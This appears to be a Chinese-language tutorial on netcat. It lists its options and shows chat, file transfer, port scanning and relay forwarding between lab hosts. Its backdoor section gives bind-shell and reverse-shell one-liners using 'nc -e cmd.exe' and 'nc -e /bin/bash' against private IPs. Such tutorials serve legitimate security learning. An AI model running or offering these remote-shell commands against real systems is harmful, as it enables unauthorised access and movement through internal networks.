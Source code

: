 # nc指令

* -h &ensp;&ensp;&nbsp;&nbsp;查看命令帮助
* -l &ensp;&ensp;&nbsp;&nbsp;&nbsp;开启监听模式,当客户端断开连接就会断开程序
* -L &nbsp;&ensp;&nbsp;&nbsp;&nbsp;开启监听模式，当客户端断开连接不会断开程序
* -p &ensp;&ensp;&ensp;监听的端口
* -e &ensp;&ensp;&ensp;执行某个程序
* -w &ensp;&ensp;&nbsp;等待的时间，如果连接超过指定的时间未连接上就退出，例如：w3。是等待3秒
* -v &ensp;&ensp;&ensp;表示对错误的信息进行详细的输出
* -n &ensp;&ensp;&ensp;不对目标机器进行DNS解析
* -z &ensp;&ensp;&ensp;I/O模式，专用于端口扫描，表示对目标IP发送的数据表中不包含任何payload，这样做可以加快扫描的速度
* -d &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;后台运行
* -G &nbsp;&nbsp;&nbsp;&nbsp;设置网关，可用于突破内网限制
* -g &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;路由跳数
* -i &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;设置发送每一行数据的时间间隔,以秒计算
* -o &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;设置十六进制的数据
* -r &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;设置netcat随机化端口号
* -s  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;设置netcat的源地址
* -t &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;回复telnet的请求数据包
* -u &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;设置netcat使用udp模式


# nc实现聊天功能
服务端
>nc64 -l -p 4444
<img src="../../image/20201124172035.png">

客户端
>nc 127.0.0.1 4444
<img src="../../image/QQ图片20201124172913.png">

发送消息
><img src="../../image/20201124172036.png">

接受消息
><img src="../../image/QQ图片20201124173401.png">

# nc实现返回cmd
服务端
>nc64 -l -p 4444
<img src="../../image/QQ图片20201125224650.png">

客户端
>nc 127.0.0.1 4444
<img src="../../image/QQ图片20201125224858.png">

# nc实现文件传输
服务端
>nc -l -p 4444 > outfile.txt
<img src="../../image/QQ图片20201126013607.png">

客户端
>nc 192.168.43.170 4444 < /mnt/d/flag.txt
<img src="../../image/QQ图片20201126013858.png">
<img src="../../image/QQ图片20201126013803.png">

结果
<img src="../../image/QQ图片20201126014023.png">
>这是客户端向服务端的文件传输，服务端向客户端的传输操作一样

# nc实现探测
可以通过nc实现内网的ip和端口扫描
条件是目标靶机防火墙必须关闭的状态

攻击机
>nc -z -v -n -w1 192.168.1.101 1-1000
<img src="../../image/QQ图片20201126153306.png">

# nc实现建立后门
windows监听型后门

服务端:
>nc -l -p 4444 -e cmd.exe
当有人连接到服务端的时候就会反弹cmd的后门
<img src="../../image/QQ图片20201126153636.png">

客户端:
>nc 10.5.100.184 4444
<img src="../../image/QQ图片20201126160709.png">

windows连接型后门

服务端：
>nc -l -p 4444
<img src="../../image/QQ图片20201126161050.png" >

客户端:
>nc 10.5.100.42 -e cmd.exe
<img src="../../image/QQ图片20201126161208.png">

linux监听型后门

服务端：
>nc -l -p 4444 -e /bin/bash
<img src="../../image/QQ图片20201126161349.png">

客户端：
>nc 10.5.100.42 4444
<img src="../../image/QQ图片20201126161618.png">

linux连接型后门

服务端
>nc -l -p 4444
<img src="../../image/QQ图片20201126161744.png">


客户端
>nc 10.5.100.42 4444 -e /bin/bash
<img src="../../image/QQ图片20201126162622.png">


# nc实现连接转发
服务端是客户端1的内网，客户端2无法连接服务端，可以通过客户端1的连接转发实现交互
服务端0：
>nc -lp 4444
<img src="../../image/QQ图片20201126171438.png">
>>服务端0-1:
<img src="../../image/QQ图片20201126172204.png">


客户端1：
>nc -lp 4445 -e bat.bat
<img src="../../image/QQ图片20201126171842.png">
<img src="../../image/QQ图片20201126171921.png">

客户端2：
>nc 10.5.100.184 4445
<img src="../../image/QQ图片20201126172056.png">


